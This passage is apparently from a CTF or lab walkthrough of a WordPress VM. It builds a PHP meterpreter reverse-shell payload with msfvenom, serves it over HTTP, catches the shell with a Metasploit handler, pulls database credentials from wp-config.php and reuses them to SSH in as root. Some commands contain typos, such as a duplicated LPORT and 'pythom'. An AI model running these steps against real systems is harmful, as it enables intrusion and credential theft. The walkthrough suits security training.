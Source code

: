 Once actived I was able to execute code. Now for a meterpreter payload and serve it up with SimpleHTTPServer

{% highlight bash %}
msfvenom -p php/meterpreter/reverse_tcp LPORT=111.111.111.111 LPORT=444 R > backdoor.php
pythom -m SimpleHTTPServer
{% endhighlight %}

Then I can use my plugin to get the payload onto the web server and start metasploit:

{% highlight bash %}
msfconsole
use exploit/multi/handler
set LHOST 111.111.111.111
set LPORT 4444
set payload php/meterpreter/reverse_tcp
exploit
{% endhighlight %}

Now that the meterpreter handler is running I can fire up the shell and now we have the first flag.

## PrivEsc

Now that I have shell:

{% highlight bash %}
cat /home/wpadmin/flag.txt
{% endhighlight %}

{% highlight bash %}
cd ../../../../
pwd
/var/www/wordpress
{% endhighlight %}

Now that we are in the Wordpress root let's look at the config file and see what the database credentials are:

{% highlight bash %}
cat wp-config.php
{% endhighlight %}

{% highlight php %}
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');
{% endhighlight %}

Now to test: 

{% highlight bash %}
ssh root@vm
pass: rootpassword!
{% endhighlight %}

And we're in, do a quick ls and see the flag:

{% highlight bash %}
cat /root/flag.txt
{% endhighlight %}

Lastly:

{% highlight bash %}
cat /etc/cron.d/php5
{% endhighlight %}
